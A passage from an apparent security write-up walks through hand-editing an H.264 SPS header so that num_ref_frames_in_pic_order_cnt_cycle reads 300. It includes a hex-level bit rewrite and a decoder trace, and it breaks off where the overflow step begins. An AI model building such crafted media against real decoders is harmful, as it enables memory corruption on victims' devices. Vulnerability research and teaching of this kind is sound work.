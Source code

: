 ![Hex dump of SPS_SPS_I_P.264 with num_ref_frames_in_pic_order_cnt_cycle highlighted.](img/sps_pps_i_p.264_hex_num_ref_frames_in_pic_order_cnt_cycle_encoding.png)

Looking at the bit-sequence, the value 2 is encoded inside `0x4D` at `b010[0 11]01`. We will rewrite this by inserting `b00000000100101101` or `b0 0000 0001 0010 1101` or `0x012D` after the `0x4`:

![Hex dump of SPS_SPS_I_P.264 with num_ref_frames_in_pic_order_cnt_cycle changed.](img/sps_pps_i_p.264_change2.png)

Looking at the bitstream again, we see that we were successful in our modification but we get a crash that prevents us from reading more `offset_for_ref_frame` values:

```
Annex B NALU w/ long startcode, len 10, forbidden_bit 0, nal_reference_idc 3, nal_unit_type 7

	SPS: profile_idc                                                (100)
	SPS: constraint_set0_flag                                       (false)
	SPS: constraint_set1_flag                                       (false)
	SPS: constraint_set2_flag                                       (false)
	SPS: constraint_set3_flag                                       (false)
	SPS: constraint_set4_flag                                       (false)
	SPS: constraint_set5_flag                                       (false)
	SPS: reserved_zero_2bits                                        (0)
	SPS: level_idc                                                  (11)
	SPS: seq_parameter_set_id                                       (0)
	SPS: chroma_format_idc                                          (1)
	SPS: bit_depth_luma_minus8                                      (0)
	SPS: bit_depth_chroma_minus8                                    (0)
	SPS: qpprime_y_zero_transform_bypass_flag                       (false)
	SPS: seq_scaling_matrix_present_flag                            (false)
	SPS: log2_max_frame_num_minus4                                  (0)
	SPS: pic_order_cnt_type                                         (1)
	SPS: delta_pic_order_always_zero_flag                           (true)
	SPS: offset_for_non_ref_pic                                     (-2)
	SPS: offset_for_top_to_bottom_field                             (9)
	SPS: num_ref_frames_in_pic_order_cnt_cycle                      (300)       <-- Set to 300
	SPS: offset_for_ref_frame                                       (1)         // Run out of bits to continue
...
```

Now we will insert more bytes into the bitstream to have enough `offset_for_ref_frame` values.

### 3. Include enough `offset_for_ref_frame` to overflow
